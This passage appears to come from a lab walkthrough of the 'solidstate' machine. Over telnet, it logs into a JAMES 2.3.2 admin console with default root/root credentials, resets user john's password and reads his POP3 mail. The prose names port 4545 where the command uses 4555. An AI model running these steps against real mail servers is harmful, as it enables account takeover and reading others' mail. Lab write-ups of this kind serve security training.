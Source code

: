 We go back to the service running on port 4545 and change john’s password.

```console
root@kali:~$ telnet 192.168.179.185 4555
Trying 192.168.179.185...
Connected to 192.168.179.185.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
setpassword john john
Password for john reset
```

We log in on pop3 service as user john, in the mail it indicates that access to **mindy** is restricted.

```console
root@kali:~$ telnet 192.168.179.185 110
Trying 192.168.179.185...
Connected to 192.168.179.185.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user john
+OK
pass john
+OK Welcome john
list
+OK 1 743
1 743
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

